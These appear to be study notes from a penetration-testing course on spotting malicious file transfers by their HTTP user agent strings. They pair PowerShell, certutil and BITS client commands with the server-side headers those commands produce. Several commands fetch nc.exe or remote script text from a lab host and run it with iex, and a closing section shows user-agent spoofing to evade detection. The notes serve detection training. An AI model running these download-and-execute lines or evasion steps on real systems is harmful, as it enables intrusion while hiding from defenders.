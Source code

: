 # Bypassing Detection

CLI detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command lines in a particular environment is initally time-consuming, it's very robust and allows for quick detection and alerting on any unusual command lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the HTTP protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which HTTP client is connecting to it, for example, Firefox, Chrome, etc...

user agents are not only used to identify web browsers, but anything acting as an HTTP client and conneting to a web server via HTTP can have a user agent string (ie, cURL, a custom Python script, or common tools such as Nmap or SQLmap).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows Update, and antivirus updates, etc.

These can be fed into an SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behaviour. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform malicious actions. https://useragentstring.com/index.php is a handy tool for identifying common user agent strings. A list of user agent strings is availabe also @ https://useragentstring.com/pages/useragentstring.php

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common HTTP transfer techniques.

## Invoke-WebRequest - Client

PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"


## Invoke-WebRequest - Server

GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0

## WinHttpRequest - Client

PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText

## WinHttpRequest - Server

GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)

## Msxml2 - Client

PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText

## Msxml2 - Server

GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)

## Certutil - Client

PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe

## Certutil - Server

GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0

## BITS - Client

PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r

## BITS - Server

HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8


This section just scratches the surface on detecting malicious file transfers. It would be an excellent start for any organization to create a whitelist of allowed binaries or a blacklist of binaries known to be used for malicious purposes. 

Furthermore, hunting for anomalous user agent strings can be an excellent way to catch an attack in progress. We will cover threat hunting and detection techniques in-depth in later modules.

# Evasion

- Change the user agent
```bash
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | 

Select-Object Name,@{
	label="User Agent";
	Expression={
		[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)
	}} | fl
```

Invoke-WebRequest to download nc.exe using a Chrome User Agent:

```bash
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"